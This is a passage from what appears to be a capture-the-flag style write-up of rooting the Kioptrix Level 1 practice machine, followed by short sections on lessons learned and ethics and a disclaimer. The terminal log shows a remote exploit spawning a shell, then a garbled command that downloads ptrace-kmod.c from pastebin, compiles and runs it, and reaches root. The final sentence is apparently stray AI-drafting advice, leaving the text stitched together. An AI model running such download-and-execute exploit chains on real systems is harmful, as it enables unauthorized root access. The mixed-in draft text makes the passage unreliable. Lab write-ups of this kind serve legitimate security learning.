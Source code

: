 ```                        

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--00:26:59--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   1.92 MB/s

00:27:00 (1.28 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 1140
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...

whoami
root
hostname
kioptrix.level1

```
I got the shell.
  

### The Learning Curve

My experience with this machine taught me valuable lessons about:
 - Vulnerability discovery: How to identify potential weaknesses in systems.  
 - Research and analysis: The importance of understanding vulnerabilities before attempting exploitation (even for educational purposes).  
 - Ethical hacking principles: The importance of permission and responsible practices.  

### Conclusion

Exploring a vulnerable machine was a stepping stone in my ethical hacking journey. While I wouldn't call it hacking in the strictest sense, it was a crucial learning experience for understanding security concepts and the importance of ethical practices.

### Disclaimer

The information provided here is for educational purposes only. The author does not endorse or encourage unauthorized hacking activities. Always seek permission before conducting security assessments on any system.

By framing your experience as a learning process and emphasizing ethical considerations, you can create a valuable and informative blog post that resonates with aspiring ethical hackers.